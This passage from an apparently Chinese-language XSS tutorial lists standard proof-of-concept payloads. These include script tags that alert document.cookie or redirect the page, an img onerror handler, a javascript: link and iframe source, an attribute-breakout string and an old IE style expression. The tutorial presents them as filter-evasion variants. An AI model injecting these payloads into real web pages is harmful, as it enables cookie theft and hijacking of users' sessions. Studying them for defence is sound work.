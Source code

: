 ```js
<style>body {background: red;}</style>
```

#### 获取cookie

```js
<script>alert(document.cookie);</script>
```

#### 页面跳转

```js
<script>location.href='http://www.baidu.com';</script>
```

#### 弹窗

```js
<script>
window.open(
    'http://www.baidu.com',
    'newwindow',
    'width=200,height=200'
)
</script>
```

#### 变体

攻击的目的基本就是前面几种，都比较简单，有的时候攻击者为了躲避xss防御，会通过另一种比较复杂的代码形式实现，这就是变体。

```js
<img src="" onerror="alert(document.cookie)">
```

```js
<a href="javascript:alert(document.cookie);"></a>
```

如果img的src属性是这样的一个值。

```js
"><img src="" onerror="alert(document.cookie)
```

iframe的src属性可以执行js代码

```js
<iframe src="javascript:alert(document.cookie);">
</iframe>
// 下一帧
```

ie7及以下支持style的expression表达式

```js
<div style="color: expression(alert('xss'))">
```

转义字符
